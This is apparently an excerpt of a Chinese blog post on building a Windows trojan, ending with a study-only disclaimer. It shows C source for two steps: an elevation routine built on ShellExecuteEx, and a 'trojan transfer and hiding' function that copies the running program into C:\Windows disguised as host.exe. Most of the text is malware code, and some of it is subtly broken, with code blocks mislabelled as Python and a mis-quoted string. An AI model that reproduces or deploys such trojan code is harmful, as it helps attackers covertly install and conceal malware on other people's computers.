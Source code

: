  ```python
            sei.hwnd = NULL;
            sei.nShow = SW_NORMAL;
if(!ShellExecuteEx(&sei)){
exit(1);
}
exit(0);
}
}
}
int main(int argc,char*argv[]){
ElevatePrivileges();
}
 
 ```
	![sx5](./img/post_img/240901/sx5.png)
	
# 木马程序转移隐藏

- 运行后将木马转移到了c:/windows目录下，改名为host.exe
```python

void CopyFilesToWindowsDir(){
char srcPath[MAX_PATH], destPath[MAX_PATH], dllSrcPath[MAX_PATH];
GetModuleFileName(NULL, srcPath, MAX_PATH);
SHGetSpecialFolderPath(NULL, destPath, CSIDL_WINDOWS, FALSE);
    strcat(destPath,'\\host.exe');
CopyFile(srcPath, destPath, FALSE);
}

int main(int argc,char*argv[]){
CopyFilesToWindowsDir();
}

```

- **文章部分内容、图片转载于先知社区 （https://xz.aliyun.com ）如侵权请联系删除。**
--- 

# 再次声明

**本文内容仅供同行技术学习交流使用，禁止使用本文内容进行违法用途！**
